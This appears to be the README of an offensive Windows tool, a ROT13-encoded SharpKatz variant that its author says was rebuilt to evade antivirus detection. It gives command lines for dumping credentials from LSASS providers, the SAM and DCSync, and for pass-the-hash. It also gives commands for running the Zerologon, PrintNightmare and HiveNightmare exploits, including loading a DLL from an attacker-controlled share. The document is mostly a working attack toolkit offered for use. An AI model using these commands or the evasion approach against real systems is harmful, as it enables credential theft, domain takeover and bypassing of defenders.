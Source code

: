 # ldump_rot13: An encoded version of Sharpkatz with all static components stripped and reproduced for AV evasion.
# Binary evades detection at run time, but does not evade scanning of the binary at rest.
# Still more work to do.

Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync commands

## Usage

### Ekeys

```ldump_rot13.exe --Command ekeys```<br>
 list Kerberos encryption keys <br>
 <br>

### Msv

```ldump_rot13.exe --Command msv``` <br>
Retrive user credentials from Msv provider <br>
<br>

### Kerberos

```ldump_rot13.exe --Command kerberos```<br>
Retrive user credentials from Kerberos provider <br>
<br>

### Tspkg

```ldump_rot13.exe --Command tspkg```<br>
Retrive user credentials from Tspkg provider <br>
<br>

### Credman

```ldump_rot13.exe --Command credman```<br>
Retrive user credentials from Credman provider <br>
<br>

### WDigest

```ldump_rot13.exe --Command wdigest```<br>
Retrive user credentials from WDigest provider <br>
<br>

### Logonpasswords

```ldump_rot13.exe --Command logonpasswords```<br>
Retrive user credentials from all providers <br>
<br>

### List shadowcopies

```ldump_rot13.exe --Command listshadows```<br>
Enumerate shadowcopies with NtOpenDirectoryObject and NtQueryDirectoryObject<br>
<br>

### Lsadumpsam

```ldump_rot13.exe --Command dumpsam --System \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\System32\\config\\SYSTEM --Sam \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\System32\\config\\SAM```<br>
Dump credential from provided sam database<br>
<br>

### Pth

```ldump_rot13.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password<br>
<br>
```ldump_rot13.exe --Command pth --User username --Domain userdomain --Rc4 rc4key```<br>
Perform pth to create a process under userdomain\username credential user's rc4 key<br>
<br>
```ldump_rot13.exe --Command pth --Luid luid --NtlmHash ntlmhash```<br>
Replace ntlm hash for an existing logonsession <br>
<br>
```ldump_rot13.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash --aes256 aes256```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password and aes256 key <br>
<br>

### DCSync

```ldump_rot13.exe --Command dcsync --User user --Domain userdomain --DomainController dc```<br>
Dump user credential by username <br>
<br>
```ldump_rot13.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```<br>
Dump user credential by GUID <br>
<br>
```ldump_rot13.exe --Command dcsync --Domain userdomain --DomainController dc```<br>
Export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
```ldump_rot13.exe --Command dcsync --User user --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Dump user credential by username using alternative credentials<br>
<br>
```ldump_rot13.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Dump user credential by GUID using alternative credentials<br>
<br>
```ldump_rot13.exe --Command dcsync --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Export the entire dataset from AD to a file created in the current user's temp forder using alternative credentials<br>
<br>

### Zerologon

No reference to logoncli.dll, using the direct rpc call works even from a [non-domain joined workstation](https://twitter.com/gentilkiwi/status/1306178689630076929)

```ldump_rot13.exe --Command zerologon --Mode check --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon check <br>
<br>
```ldump_rot13.exe --Command zerologon --Mode exploit --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon attack <br>
<br>
```ldump_rot13.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --User krbtgt --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and dump user credential by username <br>
<br>
```ldump_rot13.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --Guid guid --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and dump user credential by GUID <br>
<br>
```ldump_rot13.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
Note: Do not use zerologon in a production environment or at least plan for recovery actions which are detailed [here](https://github.com/dirkjanm/CVE-2020-1472) 

### PrintNightmare CVE-2021-1675 - CVE-2021-34527

```ldump_rot13.exe --Command printnightmare --Target dc --Library \\\\mycontrolled\\share\\fun.dll```<br>
Perform PrintNightmare attack <br>
<br>
```ldump_rot13.exe --Command printnightmare --Target dc --Library \\\\mycontrolled\\share\\fun.dll --AuthUser user --AuthPassword password --AuthDomain dom```<br>
Perform PrintNightmare attack with provided credentials<br>
<br>

### HiveNightmare CVE-2021-36934

```ldump_rot13.exe --Command hiveghtmare```<br>
Exploit HiveNightmare vulnerability selecting the first available shadowcopy <br>
<br>
